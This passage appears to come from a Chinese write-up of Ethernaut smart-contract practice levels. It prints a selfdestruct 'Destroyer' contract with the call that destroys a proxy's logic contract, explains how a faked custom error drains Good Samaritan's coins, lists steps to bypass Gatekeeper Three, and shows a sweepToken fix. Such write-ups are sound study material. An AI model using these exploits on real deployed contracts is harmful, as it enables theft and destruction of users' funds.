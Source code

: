 
然后创建自定义合约以执行 selfdestruct
部署一个恶意合约，使用 selfdestruct 摧毁逻辑合约：
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Destroyer {
    function destroy(address payable target) external {
        selfdestruct(target);
    }
}
```

调用 destroy 函数，目标是逻辑合约地址：
```javascript
await destroyerContract.methods.destroy(logicAddress).send({ from: player });
```

## 26. DoubleEntryPoint ✅[Easy]

直接中间合约调用sweepToken(LGT)就完了，修复的话
```solidity
function sweepToken(IERC20 token) external onlyOwner {
    require(address(token) != address(det), "Can't sweep DET tokens");
    require(address(token) != address(legacyToken), "Can't sweep LegacyToken");
    token.transfer(owner(), token.balanceOf(address(this)));
}
```

## 27. Good Samaritan ✅[Easy]

这题直接找到Inotify发现这个可以利用，然后还有个点就是利用
```solidity
catch (bytes memory err) {
            if (keccak256(abi.encodeWithSignature("NotEnoughBalance()")) == keccak256(err)) {
                // send the coins left
                wallet.transferRemainder(msg.sender);
                ...
            }
        }
```
这里直接捕获到对应的错误就把剩余的代币全转了，而且转之前也不看看是不是真的amount<10了，所以可以利用前一个实现notify的时候返回对应的err( revert("NotEnoughBalance()");)，然后就可以把剩余的代币全转了

## 28. Gatekeeper Three ✅[Medium]

思路：
- 调用 construct0r 将 owner 设置为你的地址。
- 调用 createTrick 创建 SimpleTrick 实例。
- 找到 SimpleTrick 合约的 password。
- 调用 getAllowance(password) 将 allowEntrance 设置为 true。
- 确保合约余额大于 0.001 ether，并将 owner 地址设置为无法接收以太币的合约。
- 通过代理合约调用 enter 函数，绕过 gateOne 检查。
- 成功设置 entrant。
